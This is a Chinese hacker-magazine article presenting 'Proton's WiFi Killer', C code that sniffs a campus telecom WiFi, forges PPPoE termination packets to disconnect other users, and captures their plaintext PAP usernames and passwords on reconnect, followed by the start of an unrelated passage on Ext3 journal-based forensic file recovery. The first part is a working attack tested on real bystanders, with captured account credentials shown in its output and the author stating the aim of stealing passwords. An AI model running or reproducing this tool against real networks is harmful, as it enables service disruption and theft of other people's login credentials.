电信公司在我们学校的各个楼层铺设了 WiFi 热点，开始的时候试用了一下，速度竟然能达到 1MB/s，感觉很不错，于是就办理了业务。可是后来用的人多了，网速实在是卡了点，有时候竟然还不如校园网速度快。这可不行，放着免费的校园网不用，花了这么多钱用 WiFi 不就是图个快吗？这时候就想，要是能把他们都踢下去，或者嗅探到密码就好了……

```bash
Bit Rate=5.5 Mb/s      Tx-Power=20 dBm
......
root@Proton:/home/proton# iw dev wlan0 interface add mon0 type monitor
root@Proton:/home/proton# ifconfig mon0 up
root@Proton:/home/proton# iwconfig mon0
mon0 IEEE 802.11bg  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm
Retry long limit:7  RTS thr:off  Fragment thr:off
......
```

###### 理论基础

用过 aircrack 的都知道，在嗅探/包注入的时候都会要求有一个处于 Monitor（RFMON）模式的无线网卡。airmon-ng 程序可以创建一个 Monitor 模式的无线网卡界面，这样对同一块无线网卡就有两种访问方式。airmon-ng 程序实际上是一个脚本，起作用的是 iw 工具。

```bash
root@Proton:/home/proton# iwconfig wlan0
wlan0 IEEE 802.11bg  ESSID:"ChinaNet"
Mode:Managed  Frequency:2.462 GHz  Access Point: IW:ON:TT:EL:LY:OU



```

这样，mon0 就是一个 Monitor 模式的界面了。迫不及待地打开 Wireshark，选择 mon0，然后自己就震惊了——大堆见也没见过的包，IEEE802.11 的 Probe Request、Beacon frame 等等。再看看捕获的数据包，没有见到熟悉的 Ethernet header，取而代之的是 Radiotap header、IEEE802.11 frame 等，如图 1 所示。

原来非 Ethernet 的网络离自己这么近！以前总以为那些东西是很遥远的……本来以为包的构造什么的可以用 libnet 轻松完成，但是测试程序在 libnet_init 的时候卡住了，提示“unknown physical layer 0x323”。

源码，发现 libnet 根本就不支持 Radiotap+IEEE 802.11 网络，libnet_build_* 函数里面也没有关于 Radiotap 和 IEEE 802.11 的函数。也就是说，我们要手工构造这些包了。
图 1  Monitor 模式中捕获的一个 PPP 验证请求，包含用户名和密码

Radiotap 是一个 pseudo header，就是说实际传输的数据中没有这个头。Radiotap 头是用来表示跟无线有关的各种参数的，比如信号强度、频道、速率、调制模式、时间戳等等。这些数据都是驱动程序在接收包的时候填入的，发送时构造的包就不用填这么多了。使用“aireplay-ng -9”做测试的时候，发送的包的 Radiotap 头只填了一个速率（Data Rate）。

```c
struct ieee80211_radiotap_header {
    u_char it_version;   // Radiotap 的版本，总是 0
    u_char it_pad;       // 对齐用，无意义
    u_int16_t it_len;    // 整个 Radiotap 头长度
    u_long it_present;   // 见下文
};




```

这个结构是在 Linux 的 include/net/ieee80211_radiotap.h 中定义的。it_present 是一个 bitmask，表示都有哪些额外的头，具体哪一位代表哪个头可以到 www.radiotap.org 查看。由于 Radiotap 头不是定长的，所以才需要 it_len 这个成员。it_len 所说的长度包括了这些额外的头。

查看网上的资料，像这种伪头还有 Prism 和 AVC 两种，我都没见过，不过跟 Radiotap 头区别不会太大。如果你的网卡驱动程序产生的是这些头的话，只需要将下文程序中关于 Radiotap 头的代码换成这些，其他的都不变即可。

图 2 是 IEEE 802.11 帧的定义，其中 Frame Control 字段是一个 16 位的整数，各个位的意义如图 3 所示。
图 2
图 3

Protocol Version 总是 0；Type/Subtype 代表帧的类型。

我们关注的是 Type==0b10&&Subtype==0b0000（Data）的帧；ToDS 表示帧是否是发向 DS（Distribution System，这里把它想成 AP 就可以了）；FromDS 表示帧是否是 DS 发出的。我们只关注后两个，其他字段下文程序中都简单置为 0。Duration 表示传输这个帧需要多长时间，单位是微秒；Address1~4 表示 MAC 地址，在不同的包类型里代表的都不一样；Sequence Control 是 16 位整数，低 4 位表示碎片编号，高 12 位表示帧的序列号；Frame Body 就是要传输的数据；FCS 即 Frame Check Sequence，CRC 校验值，用来检测数据传输是否出错。

在上面这些字段里，值得关注的是 ToDS/FromDS 和 Address4。在标准中，Address4 只在 ToDS 和 FromDS 同时为 1 的 Data 帧中才出现，而且 Address1~3 表示的地址各不一样。当 ToDS==0&&FromDS==1 时，Address1~3 分别为 DA（目标地址）、BSSID、SA（源地址）；当 ToDS==1&&FromDS==0 时，Address1~3 分别为 BSSID、SA、DA。FCS 貌似只在收到的包中才出现（在 Wireshark 中观察的，这一部分我没有看标准）。

Radiotap 和 IEEE 802.11 中所有的数据都是小端的——对于 x86 来说就用不着 htonx 和 ntohx 函数了。Logical Link Control 头一共 8 个字节，我们只关注最后两个字节构成的 Type 字段。LLC 我也没有看标准，但在 Wireshark 中观察，除了其中的 Type 字段，其他在所有包中都一样。从 LLC 开始，到更高层的 PPPoE、IP 等等，所有数据都是大端的——别忘了转换成网络顺序。

如果 LLC 头中 Type 的值是 0x8864 的话，后面会是下面的 PPPoE Session 结构。

```c
struct pppoe_session {
    u_char version_type;    // 总是 0x11
    // 只关注此处是 0x00（Session Data）的包
    u_char code;
    u_short session_id;     // PPPoE 会话 ID
    u_short payload_length; // 负载数据长度
};
```

紧接着 PPPoE Session 结构后面两个字节表示 Protocol，也就是封装的协议类型。我们只关注协议类型为 0xc021（PPP Link Control Protocol）和 0xc023（PPP Password Authentication Protocol）。如果是 0x0021 的话，后面就是 IP 头了。这两个协议看字面意思都很容易理解，前者用来控制 PPP 链接，后者是明文的验证信息！LCP 和 PAP 的结构都很简单，都是由 1 个字节的 Code、1 个字节的 Identifier 和 2 个字节 Length 与随后的数据构成。Identifier 是让请求和回应配对用的；Code 表示类型，下文程序中会出现 LCP 的 Termination-Request（0x05）和 Termination-Ack（0x06），PAP 的 Authenticate-Request（0x02）。Length 表示从 Code 开始到数据结束的长度。Termination-Request 的数据就是一个字符串，表示结束链接的原因；Termination-Ack 没有附带数据；Authenticate-Request 的附带数据是一个字节的用户名长度+用户名+一个字节的密码长度+密码。

###### 代码编写

我们的目标在一开始就已经提到了——阻止其他人上网，并且嗅探账号和密码。如果你认真地看完了上面的内容，相信你已经知道怎么做了——构造一个 Termination-Request 发送给 AP，就可以强行将连接断开；而被强行断开的用户重新连接的时候，就会嗅探到他们的 Authenticate-Request。

```c
#include <unistd.h>
#include <sys/types.h>
#include <pcap/pcap.h>
#include <libnet.h>
#include <signal.h>
#include "routines.h"

/* Header Definitions */
struct ieee80211_radiotap_header {
    ...
};

struct ieee80211_frame {
    u_int16_t i_fc;
    u_int16_t i_dur;
    u_int8_t  i_addr1[6];
    u_int8_t  i_addr2[6];
    u_int8_t  i_addr3[6];
    u_int16_t i_seq;
    packed;
};

struct pppoe_session {
    ...
};

unsigned char u8aRadiotap[] = {
    0x00, 0x00,
    0x0c, 0x00,
    0x04, 0x80, 0x00, 0x00,
    0x00,
    0x00,
    0x18, 0x00
};

unsigned char llcData[] = {
    0xaa, 0xaa, 0x03,
    0x00, 0x00, 0x00,
    0x88, 0x64
};

unsigned char pppoeTerminate[] = {
    0x11,
    0x00,
    0x00, 0x00,
    0x00, 0x19,
    0xc0, 0x21,
    0x05,
    0x02,
    0x00, 0x17,
    0x68, 0x61, 0x63, 0x6b, 0x20,
    0x48, 0x41, 0x43, 0x4b, 0x20,
    0x48, 0x41, 0x63, 0x6b, 0x20,
    0x68, 0x61, 0x43, 0x4b
};
```

```c
};
libnet_t *libnet_context;
pcap_t *pcap_context;
int verbose = 0;
unsigned long pktcount[0x10000];

void usage() {
    ...
}

void sigint_handler(int sig) {
    struct sigaction sa;
    memset(&sa, 0, sizeof(sa));
    sa.sa_handler = SIG_DFL;
    sigaction(SIGINT, &sa, NULL);
    pcap_breakloop(pcap_context);
}

void pcap_callback(u_char *user, const struct pcap_pkthdr *h, const u_char *bytes) {
    u_char *p;
    struct ieee80211_frame *pieee;
    struct pppoe_session *pppoe;

    p = (u_char *)bytes;
    p += ((struct ieee80211_radiotap_header *)p)->it_len;

    pieee = (struct ieee80211_frame *)p;
    if (((pieee->i_fc & 0xFF) >> 2) != 2) {
        return;
    }

    int t;
    t = pieee->i_fc >> 8 & 0b11;
    if (t == 0 || t == 3) {
        return;
    }

    p += sizeof(struct ieee80211_frame);

    if (0x8864 == ntohs(*(uint16_t *)(&p[6]))) {
        p += 8;
        pppoe = (struct pppoe_session *)p;
        p += sizeof(struct pppoe_session);

        if (0xc023 == ntohs(*(uint16_t *)p) && p[2] == 0x01) {
            int len;
            char buf[100];
            p += 6;
            len = *p;
            memcpy(buf, p + 1, len);
            buf[len] = 0;
            printf("\nWe got an account: %s/", buf);
            p += len + 1;
            len = *p;
            memcpy(buf, p + 1, len);
            buf[len] = 0;
            printf("%s\n", buf);
            return;
        } else if (0xc021 == ntohs(*(uint16_t *)p) && p[2] == 0x06) {
            ...
        }
    }
}
```

```c
printf("\nPPP Link 0x%04X is down.\n", (u_long)ntohs(pppoe->session_id));
} else { // 普通帧数据
    u_short sessid;
    sessid = ntohs(pppoe->session_id);
    pktcount[sessid]++;
    if (verbose)
        write(STDOUT_FILENO, ".", 1);

    if (pktcount[sessid] > 30) {
        // 构造 Termination-Request 发送，强拆连接
        u_char buf[200], *p = buf;
        memcpy(p, u8aRadiotap, sizeof(u8aRadiotap));
        p += sizeof(u8aRadiotap);

        // IEEE802.11 frame
        #define P ((struct ieee80211_frame *)p)
        P->i_fc = 0x108;
        switch (((pieee->i_fc) >> 8) & 0x3) {
            case 1: // STA -> DS
                memcpy(P->i_addr1, pieee->i_addr1, 6);
                memcpy(P->i_addr2, pieee->i_addr2, 6);
                memcpy(P->i_addr3, pieee->i_addr3, 6);
                break;
            case 2: // DS -> STA
                memcpy(P->i_addr1, pieee->i_addr2, 6);
                memcpy(P->i_addr2, pieee->i_addr1, 6);
                memcpy(P->i_addr3, pieee->i_addr3, 6);
                break;
            default:
                break;
        }

        P->i_dur = 127;
        P->i_seq = ((pieee->i_seq >> 4) + 5) << 4;
        p += sizeof(struct ieee80211_frame);
        #undef P

        memcpy(p, llcData, sizeof(llcData));
        p += sizeof llcData;
        memcpy(p, pppoeTerminate, sizeof(pppoeTerminate));
        ((struct pppoe_session *)p)->session_id = pppoe->session_id;
        p[9] = 4;
        p += sizeof(pppoeTerminate);

        libnet_write_link(libnet_context, buf, p - buf);
        printf("\nSent PPP TerminationRequest for Session 0x%04X\n", (u_long)sessid);
        pktcount[sessid] = 0;
    }
}

int main(int argc, char *argv[]) {
    ...
}
```

```c
char *iface;
char errbuf[200];
struct sigaction sa;

printf("Proton's WiFi Killer V0.1 for PPPoE Sessions of ChinaNet\n\n");
if (argc < 2)
    usage();
if (geteuid()) {
    printf("This tool requires root privilege!\n");
    return 1;
}

iface = argv[1];
if (argc > 2 && strcmp(argv[2], "-verbose") == 0)
    verbose = 1;

libnet_context = my_libnet_init(LIBNET_LINK_ADV, iface, errbuf);
if (!libnet_context) {
    printf("Unable to initialize libnet: %s\n", errbuf);
    return 1;
}

pcap_context = pcap_open_live(
    iface,
    0x10000,
    1,
    0,
    errbuf
);
if (!pcap_context) {
    printf("Unable to initialize libpcap: %s\n", errbuf);
    return 1;
}

memset(&sa, 0, sizeof(sa));
sa.sa_handler = sigint_handler;
sigaction(SIGINT, &sa, NULL);
sa.sa_handler = sigusr1_handler;
sigaction(SIGUSR1, &sa, NULL);
memset(&pktcount, 0, sizeof(pktcount));

pcap_loop(pcap_context, -1, pcap_callback, (u_char *)"Proton");

pcap_close(pcap_context);
libnet_destroy(libnet_context);
printf("\nProgram terminated.\n");
return 0;
```

###### 实际测试

我的笔记本电脑是 Dell Latitude D630，无线网卡是 Broadcom 的 BCM4311，在 Ubuntu 下的驱动名叫 b43，自己感觉性能不是太好。我所处的地方隔壁是艺术生的机房，里面有很多人，都自己抱着本本，很多人在用电信的无线。下面是运行的结果：

```bash
root@Proton:/home/proton/workspace/wifikiller/Debug# ./wifikiller mon0
Proton's WiFi Killer V0.1 for PPPoE Sessions of ChinaNet
```

```text
Sent PPP Termination Request for Session 0x3E7C
PPP Link 0x3E7C is down
PPP Link 0x3E7C is down
Sent PPP Termination Request for Session 0x3BC8
PPP Link 0x3BC8 is down
Sent PPP Termination Request for Session 0x3D7A
We got an account: xxxxx17964/419253
We got an account: xxxxx17964/419253
We got an account: xxxxx17964/419253
We got an account: xxxxx17964/419253
We got an account: xxxxx20610/891114
We got an account: xxxxx20610/891114
Sent PPP Termination Request for Session 0x3D0A
PPP Link 0x3D0A is down
PPP Link 0x3D0A is down
^C
Program terminated
root@Proton:/home/proton/workspace/wifikiller/Debug#















```

这是 10s 内的结果（包有重复是因为重传）。大家可以看到，0x3E7C 和 0x3BC8 这两个 Session 的连接被强拆，而且随后捕获到了两组用户密码，估计就是被强拆连接的那两个人又重新连接了。0x3D7A 虽然发送了包，但是没有回应，应该是信号的问题。0x3D0A 估计是上面重连的，拨号以后又马上断线。

学弟的电脑，在他的电脑上测试，得到的结果如图 4 所示，预期目的算是圆满达成了。
图 4 Windows XP 上 PPP 连接被强拆后弹出的窗口

##### 后记

本程序在 Ubuntu 9.10（2.6.31.5 内核，自己编译的）和 BCM4311 网卡上测试成功。这里的电信 WiFi 不仅可以通过 PPPoE 连接，还可以通过网页进行登录，这样的话，这个程序的两个功能就都失效了。想了一下，断网的话可以通过发送 IEEE 802.11 的 Deauthentication 包；嗅探密码的话可以解析 HTTP 包（一个简单的 POST）。很明显这两种攻击方式都只能算是体力活了，有兴趣的读者自行完成即可。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：Linux、Ext3 分区、数据恢复

##### Linux 下基于日志文件的 Ext3 数据恢复程序设想
文/图 小小杉

如何从目标主机中获取更多的有效电子证据，直接关系到是否能够对犯罪分子进行有效的打击。在静态的系统取证中（power-off forensics），数据恢复技术是一个核心的技术分支。犯罪分子在运用计算机实施犯罪时，总会在主机中留下一些或多或少的痕迹，如从网站下载的攻击程序、访问过的恶意网页，以及各种经济犯罪中双方往来的电子邮件、聊天记录等等。计算机专业知识不强的犯罪分子往往只是对这些痕迹进行了一个简单删除，即“shift+delete”操作或者先拖入回收站再清空，这类操作都统称为单次性删除。然而单次性删除并没有对磁盘进行清空，只是对其占用的磁盘扇区标记为空，抑或是再将其引用的数据扇区指针清空，断开数据簇链。

在 2009 年第 8 期的文章中，我曾经详细分析了 Linux 下 Ext2/3 文件系统的组织结构，以及文件被删除前后的各种变化。在 Ext3 文件系统下，文件删除后，它所对应的数据块指针 i_block 被清空，即其包含的前 12 个直接数据地址以及一级索引间接指针、二级索引指针和三级索引指针均已清空。显然，在正常情况下若不能重现出 i_block 中的三个数据指针，将无法恢复删除的文件。在第 8 期的这篇文章中曾给出一种设想，即为了恢复在 Ext3 下删除的文件，可以在目标机中先安装一个文件系统过滤驱动，每次当上层用户执行删除命令时，捕获 IRP 删除信号，提前读取并保存文件的 i_block 指针，此时可做到准确恢复删除过的文件。然而，实际上不存在这种理想情形，因为取证分析员无法对未发现具有可疑证据的主机安装过滤驱动。当前，人们普遍认为在 Ext3 下删除的文件是不可逆的，即无法再现。参阅大量文献后，我发现 Gregorio 在 GCFA 会议上给出了一种针对 Ext 日志文件的数据恢复技术，很好地解决了如何实现 Ext3 文件系统下删除的文件恢复问题，本文是在深入研究 Gregorio《充分利用 Ext3 日志文件实施调查取证》一文后写下的，也希望能给更多想从事取证技术研究的读者一定的参考。

###### 准备前的开发工具

- WinHex 软件：借助它可详细分析 Ext3 的文件系统组织结构（如超级块、inode 节点等），并能够对删除后的文件进行对比分析。
- Sleuthkit 软件：一款针对 UNIX、Linux 默认文件系统的专业取证分析工具，能够获取已删除文件的 inode 节点结构信息，对数据恢复的研究有巨大帮助。

###### 数据恢复试验准备工作

为了更好地测试如何借助日志文件进行数据恢复，我们可以选择一个较大的干净分区，如 40GB 大小。Linux 系统内核版本为 2.6 及以上版本均可。

- `/dev/sda6`：创建一个 Ext3 文件系统分区，且分区下包含自己的日志信息，并按默认挂载方式（mode=ordered）挂载到系统中。
- `/dev/sda7`：创建一个 Ext3 分区，但其日志文件信息单独记录在一个外部设备上，这里假设在系统的另一个分区中，如 `/dev/sda8`。
- `/dev/sda8`：记录了 `/dev/sda7` 分区下的日志文件信息。

###### Ext3 的日志文件分析

ExtX 的文件系统组织结构以及如何存放任一文件数据信息，包括文件的属性，如 MAC 时间、文件名等都已经在 2009 年第 8 期的文章中详细分析过了，不熟悉的读者可以参考那期文章，此处不再赘述。下面重点分析 Ext3 日志文件结构。所谓日志文件系统是在传统文件系统的基础上，加入文件系统更改的日志记录，以跟踪记录文件系统的变化，并将变化内容记录入日志。在日志文件系统中，所有文件系统的变化都被记录到日志，每隔一定时间，文件系统会将更新后的元数据及文件内容写入磁盘。在对元数据做任何改变以前，文件系统驱动程序会向日志中写入元数据的变化。

Ext3 在兼容 Ext2 主要功能的前提下，增加了一个日志文件功能，其主要思想是：对文件系统进行的任何高级修改都分两步进行。首先，把待写块的一个副本存放在日志中；其次，当发往日志的 I/O 数据传送完成时（即数据提交到日志），块就写入文件系统。当发往文件系统的 I/O 数据传送终止时（即数据提交给文件系统），日志中的块副本就被丢弃。

Ext3 既可以只对元数据做日志，也可以同时对文件数据块做日志。具体来说，Ext3 提供以下三种日志模式：

- 日志（Journal）：文件系统所有数据和元数据的改动都记入日志。这种模式减少了丢失每个文件所做修改的几率，但需要很多额外的磁盘访问。例如，当一个新文件被创建时，它的所有数据块都必须复制一份作为日志记录。这是最安全和最慢的 Ext3 日志模式。
- 预定（Ordered）：只有对文件系统元数据的改变才记入日志。然而，Ext3 文件系统把元数据和相关的数据块进行分组，以便把元数据写入磁盘之前写入数据块。这样，就可以减少文件内数据损坏的机会；例如，确保增大文件的任何写访问都完全受日志的保护。这是默认的 Ext3 日志模式。
- 写回（Writeback）：只有对文件系统元数据的改变才记入日志；这是在其他日志文件系统发现的方法，也是最快的模式。

从取证分析的角度考虑，显然第一种方式为取证分析员提供的数据信息最多；但在实际上，Ext3 默认是按 Ordered 方式记录日志的，故当文件数据发生改变时，在日志中只记录了元数据信息（指描述文件及目录信息的存放位置，主要存放在 inode 节点中）。Ext3 日志中主要包含 4 种结构，分别为组描述符、元数据块（Metadata block）、Commit block 和 Revoke block。我们感兴趣的结构为元数据块，它记录了 Ext3 下任一文件的 inode 结构变化。OK，理论知识就介绍这么多了，对日志文件还不太理解的读者可参考 Carrier 的专著《File System Forensic Analysis》第 14、15 章内容。

###### Ext2 和 Ext3 文件系统删除前后的对比

Ext3 文件系统研发者之一 Andreas Dilger 曾说过，Ext3 文件系统中，当文件被删除时，其对应的数据指针链清空，而 Ext2 仅仅是在索引节点位图中标记此节点未使用，它所对应的数据块指针依旧存在。下图我们在一个 Ext2 和 Ext3 分区下分别创建两个文件，并将其同时删除，来测试它们发生的变化。在 Ext2 中文件删除后，采用 Sleuthkit 工具进行分析；使用 `ils` 命令（此命令可以逐列举出分区下所有删除的 inode 节点），故只需要执行命令“`ils -r sda6`”，这里假设 sda6 为 Ext2 分区，此时输出信息如图 1 所示。
图 1　ils 命令枚举指定分区下已删除文件 inode 节点信息

由图 1 可知，224002 是一个被删除的 inode 节点，下面我们使用 istat 命令跟踪此节点的详细信息。istat 命令可查看指定节点的 MAC 时间、是否被分配出去、inode 节点的组 ID、用户 ID 和访问权限等。若想查看与此节点相关的原文件，可使用 `ffind -a sda6 inodeNum` 查看对应文件名。若显示结果为“*/dev/...123456”，则表示此文件被删除，“*”表示文件已删除。继续跟踪下去，还可以根据 istat 命令显示结果（如 Direct Blocks 间接块指针）执行 `ifind -d sda6 direcBlockNum` 找到指针对应的所有块地址。执行命令“`istat sda6 224002`”后，结果如图 2 所示。
图 2　istat 命令列举索引节点 224002 的详细信息

由图 2 可知，文件删除后数据块指针 i_blocks 没有清除，只是在节点位图中标识此节点未用。“Not Allocation”即表示文件已被删除。若 i_block 对应的数据块没有被覆盖，则使用 icat 命令“`icat -r sda6 224002 > recovered`”即可恢复文件内容。同样在终端中输入命令“`istat sda7 144015`”，结果如图 3 所示。

由图 3 可知，在 Ext3 下文件被删除后，其对应的数据块指针确实已经清空。当然，读者也可以在 Windows 平台下使用 WinHex 工具对 Ext2/3 下的已删除文件进行测试，只是此时需要明确如何根据删除文件的子目录项结构中的索引节点号定位到它的索引节点结构，然后定位到索引节点表对应的 inode 子项。下面介绍一种基于 Ext3 日志文件实现数据恢复的技术。
图 3　Ext3 分区下文件被删除后用 istat 命令跟踪已删除节点 144015 内容

##### 基于日志文件的数据恢复技术

首先，我们需要对 Ext3 分区做一个文件镜像，这里设 sda6img.dd 为分区 sda6 的镜像，且在做镜像前，sda6 分区下存在已删除过的文件。下面我们利用 Sleuthkit 工具对删除文件的 inode 节点进行分析（对 Sleuthkit 工具不太了解的读者，可参考 Chris Marko 编写的文章《Introduction to The Sleuth Kit》）。文章详细介绍了如何使用此工具对各种文件系统进行分析调查。采用 ils 命令对 inode 节点分析，先假设我们已知此文件的索引节点号为 144015。注意：文件被删除后，其对应索引节点号是不会被擦除的，索引节点号存放在其目录项结构中。目录项结构定义如下：

```c
struct directory_entry{
  DWORD inode;    // 索引节点号
  WORD  rec_len;  // 目录所占字节数，依据此项可定位到下一个子目录项
  Byte  name_len; // 目录子项名长度，字符数
  Byte  file_type;// 文件类型
  char *name;     // 文件名
};

